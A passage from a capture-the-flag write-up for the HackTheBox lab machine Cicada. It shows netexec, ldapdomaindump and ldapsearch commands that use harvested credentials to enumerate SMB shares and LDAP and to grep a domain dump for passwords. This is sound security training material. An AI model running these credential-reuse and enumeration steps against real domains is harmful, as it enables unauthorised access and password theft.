 
Let's use the new credentials to login via SMB.

```
netexec smb cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```

![michael.wrightson available shares](/images/HTB-Cicada/micheal_smb.png)

This user has access to the `NETLOGON` and `SYSVOL` shares on top of the two previous shares we noticed earlier. Unfortunately none of them contains any valuable information.

Let's try to authenticate via LDAP with the credentials we have.

```
netexec ldap cicada.htb -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![LDAP authentication michael.wrightson](/images/HTB-Cicada/LDAP_auth_michael.png)

The credentials are valid! We can obtain more information with `ldapdomaindump`.

```
ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![ldapdomaindump](/images/HTB-Cicada/ldapdomaindump.png)

After opening `domain_users.html` we notice that `david.orelious` left his password (`aRt$Lp#7t*VQ!3`) in the description.

![david.orelious password found](/images/HTB-Cicada/david_pwd.png)

---

It is also possible to use `ldapsearch` to get the password.


We first dump all the information about the domain (**A LOT OF OUTPUT**).

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb'
```

This command will display all the user names on the domain.

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' "(objectClass=person)" | grep "sAMAccountName:"
```

![ldapsearch finds domain names](/images/HTB-Cicada/ldapsearch_domain_names.png)

We attempt to find some passwords with the command below.

```
ldapsearch -H ldap://cicada.htb -D 'michael.wrightson@cicada.htb' -w 'Cicada$M6Corpb*@Lp#nZp!8' -b 'dc=cicada,dc=htb' | grep pass
```
